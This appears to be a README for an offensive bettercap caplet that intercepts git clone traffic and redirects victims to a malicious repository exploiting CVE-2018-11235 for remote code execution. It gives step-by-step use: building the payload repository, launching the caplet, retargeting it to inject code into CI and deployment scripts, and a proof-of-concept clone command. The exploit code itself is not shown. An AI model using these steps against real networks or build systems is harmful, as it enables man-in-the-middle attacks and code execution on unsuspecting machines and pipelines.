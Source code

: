 # Caplet for exploiting CVE-2018-11235

This caplet is intercepting http/https git clone attempts and
redirecting them to local http server that serves a malicous
repository leading to exploitation of CVE-2018-11235 on vulnerable
client.

## How to use

1. Create a malicious repository with `build_repo.sh` script. The
   script will take the contents of `payload.txt` as payload -
   customize the payload file to your needs.
2. Run the caplet with:

```
bettercap -caplet caplets/gitspoof/gitspoof.cap
```

## Alternative use cases

You can control to which repository redirect the victim, by changing
`gitspoof.repo` variable to an IP or domain (do not prefix with
http(s)). This way if the victim is not susceptible to CVE-2018-11235
you can still try to inject arbitrary code into the repo - this might
come in handy when trying to exploit some bad CI/deployment scripts.

## Limitations

Obviously the script won't be able to intercept https git clones
unless you can obtain a valid SSL cert or the victim used `-c
http.sslVerify=false` configuration option.

The script was aimed at attacking automated systems not people
therefore the repo layout doesn't try hard to look inconspicuous ;)

Attacking human with this caplet would require to also spoof some 
trusted domain and point it at bettercap server since Git will always
notify the user about http redirect.

Finally - all the CVE-2018-11235 limitations apply - to get RCE the
victim needs to have vulnerable git client **and** do a recursive
git clone (or initialize the submodules afterwards).

## POC testing 

You can test the script yourself without arp poison:

1. Setup vulnerable git on your system
2. Fire the caplet (remember to run `./build_repo.sh` first!)
3. On vulnerable system run: 

```
http_proxy=<ip address of bettercap machine><bettercap_http_port> git clone --recursive http://github.com/bettercap/bettercap /tmp/exploit
```

(**NOTE**: we are intentionally trying to clone via http on github)

The clone should trigger the default payload.
